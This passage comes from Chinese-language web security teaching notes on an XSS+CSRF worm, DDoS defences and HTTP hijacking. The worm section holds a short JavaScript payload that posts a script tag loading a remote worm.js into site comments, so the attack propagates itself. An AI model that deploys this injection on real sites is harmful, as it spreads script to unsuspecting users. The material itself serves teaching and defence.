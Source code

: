  #### 2.2.4 xss+csrf(蠕虫) 

不断传播的xss+csrf攻击 worm.js

```javascript
const attack = '<script src="http://localhost:3001/worm.js"></script>';
$.post('/api/comments', { content: 'haha' + attack });
```

 ## 3\. DDOS攻击 

分布式拒绝服务(Distribute Denial Of Service)

* 黑客控制大量的肉鸡向受害主机发送非正常请求，导致目标主机耗尽资源不能为合法用户提供服务
* 验证码是我们在互联网十分常见的技术之一。不得不说验证码是能够有效地防止多次重复请求的行为。
* 限制请求频率是我们最常见的针对 DDOS 攻击的防御措施。其原理为设置每个客户端的请求频率的限制
* 增加机器增加服务带宽。只要超过了攻击流量便可以避免服务瘫痪
* 设置自己的业务为分布式服务，防止单点失效
* 使用主流云系统和 CDN（云和 CDN 其自身有 DDOS 的防范作用）
* 优化资源使用提高 web server 的负载能力

 ## 4\. HTTP劫持 

* 在用户的客户端与其要访问的服务器经过网络协议协调后，二者之间建立了一条专用的数据通道，用户端程序在系统中开放指定网络端口用于接收数据报文，服务器端将全部数据按指定网络协议规则进行分解打包，形成连续数据报文。
* 用户端接收到全部报文后，按照协议标准来解包组合获得完整的网络数据。其中传输过程中的每一个数据包都有特定的标签，表示其来源、携带的数据属性以及要到何处，所有的数据包经过网络路径中ISP的路由器传输接力后，最终到达目的地，也就是客户端。
* HTTP劫持是在使用者与其目的网络服务所建立的专用数据通道中，监视特定数据信息，提示当满足设定的条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示宣传性广告或者直接显示某网站的内容。

 ## 参考 

* [zf-safe](https://gitee.com/zhufengpeixun/zf-safe)